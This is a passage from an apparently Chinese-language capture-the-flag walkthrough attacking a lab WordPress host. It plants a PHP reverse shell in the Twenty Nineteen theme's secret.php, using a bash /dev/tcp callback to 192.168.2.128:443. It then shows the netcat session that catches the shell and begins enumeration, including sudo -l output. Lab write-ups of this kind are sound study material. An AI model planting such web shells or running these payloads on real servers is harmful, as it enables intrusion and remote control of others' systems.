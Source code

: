 -   找到可写的PHP文件，写入shell到该文件中，当前版本的主题中有一个默认主题为`Twenty Nineteen Version: 1.4` ，找到其中的`secret.php`文件，将反弹shell写入到该文件中

-   ![image-20230519154517659](https://raw.githubusercontent.com/r0o983/images/main/image-20230519154517659.png)

-   写入反弹shell`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.128/443 0>&1'") ?>`到文件中，本地发起监听。

    -   注：`http://<ip address>/wordpress/wp-content/themes/twentynineteen/secret.php` 为默认路径

-   ![image-20230519154949325](https://raw.githubusercontent.com/r0o983/images/main/image-20230519154949325.png)

### 获得shell

```shell
# 获得初始shell
└─$ nc -nvlp 443                                                
listening on [any] 443 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.131] 51020
bash: cannot set terminal process group (1445): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:f7:2c:7d brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.131/24 brd 192.168.2.255 scope global dynamic ens33
       valid_lft 1494sec preferred_lft 1494sec
    inet6 fe80::1597:a6f0:28a3:f906/64 scope link 
       valid_lft forever preferred_lft forever

www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ whoami
www-data

www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ sudo -l
ludo - 
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ 

```
